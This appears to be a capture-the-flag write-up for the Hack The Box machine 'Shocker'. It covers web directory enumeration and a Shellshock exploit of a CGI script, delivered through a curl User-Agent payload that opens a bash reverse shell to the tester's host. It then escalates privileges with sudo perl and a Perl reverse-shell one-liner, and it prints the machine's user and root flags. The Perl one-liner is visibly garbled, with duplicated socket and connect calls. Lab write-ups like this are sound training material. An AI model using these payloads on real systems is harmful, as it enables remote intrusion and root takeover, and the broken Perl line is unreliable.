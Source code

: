 ## ------------->> Shocker <<----------------

// We will start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.56 -p-
-------

    Nmap scan report for 10.10.10.56
    Host is up (0.31s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html).
    2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
    |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
    |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

// Navigating to http://10.10.10.56/ , present us with a website with only photo

![Image 1]()

// Lets search for interesting directories with [gobuster](https://github.com/OJ/gobuster)(By OJ)

    $ gobuster dir -u http://10.10.10.56 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 20 
-------

    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.10.56
    [+] Method:                  GET
    [+] Threads:                 20
    [+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Timeout:                 10s
    ===============================================================
    2021/07/07 19:21:00 Starting gobuster in directory enumeration mode
    ===============================================================
    /server-status        (Status: 403) [Size: 299]

    ===============================================================
    2021/07/07 19:47:19 Finished
    ===============================================================

// gobuster = no results
// continue to other tool : [feroxbuster](https://github.com/epi052/feroxbuster)(By epi052)

    $ ./feroxbuster -u http:10.10.10.56 -x php,html
------

     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.3.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http:10.10.10.56
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.3.1
     💲  Extensions            │ [php, html]
     🔃  Recursion Depth       │ 4
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    200        9l       13w      137c http://10.10.10.56/index.html
    403       11l       32w      299c http://10.10.10.56/server-status
    [####################] - 4m    179994/179994  0s      found:2       errors:0      
    [####################] - 4m     89997/89997   362/s   http:10.10.10.56


// Not found much either

// ets try -f (force adding '/' to the end of directories) and -n (not scan recursevly)

    $ ./feroxbuster -u http:10.10.10.56 -f -n
-------

    .......
    403       11l       32w      294c http://10.10.10.56/cgi-bin/
    403       11l       32w      292c http://10.10.10.56/icons/
    403       11l       32w      300c http://10.10.10.56/server-status/
    .......

// Greate, We found /cgi-bin/ directory

// Lets try to search with common cgi scripts extensions in /cgi-bin/

    $ ./feroxbuster -u http:10.10.10.56/cgi-bin/ -x sh,cgi,pl
---------

    ......
    200        7l       17w        0c http://10.10.10.56/cgi-bin/user.sh
    ......

// Alsome, found .sh file /cgi-bin/user.sh

// Download the file and see the contant

    $ cat user.sh
    
    Content-Type: text/plain

    Just an uptime test script

    15:28:27 up 10 min,  0 users,  load average: 0.00, 0.01, 0.00

// when i type uptime in my terminal it like the same command

    $ uptime 
    
    20:20:21 up  3:51,  2 users,  load average: 2.05, 1.92, 1.67

// Lets check the answer in BurpSuite Reapeter

![Image 2]()

// we needed to download the file becouse the gap between Content-Length and Content-Type

// so the first Content-Type selected is  text/x-sh which stends for - (execute .sh file)

// which mean there is some talking with the server so lets try to inject code to the server

// u can add the request that sent in burpsuite , OR 

// one of the techniques i have found was shellshock one liner paylad:

    $ curl -H "User-Agent: () { :; };/bin/bash -i >&/dev/tcp/10.10.17.8/1444 0>&1" http://10.10.10.56:80/cgi-bin/user.sh

// before that just run a listiner 

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...

// And we have a shell

    $ rlwrap nc -lvnp 1444
    listening on [any] 1444 ...
    connect to [10.10.16.238] from (UNKNOWN) [10.10.10.56] 43410
    bash: no job control in this shell
    shelly@Shocker:/usr/lib/cgi-bin$ 

// And user flag

    cat user.txt
    631d652c................

// 



sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
    
    
// we can see that shelly able to run perl script with high privilleges(sudo)
// all that last to do is make perl reverse shell

$ rlwrap nc -lvnp 9002


shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'use Socket;$i="10.10.16.238";$p=9002;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


$ rlwrap nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.16.238] from (UNKNOWN) [10.10.10.56] 41516
/bin/sh: 0: can't access tty; job control turned off
whoami
root



cat root.txt
309790985d406933fb96f8ed99cfcaac
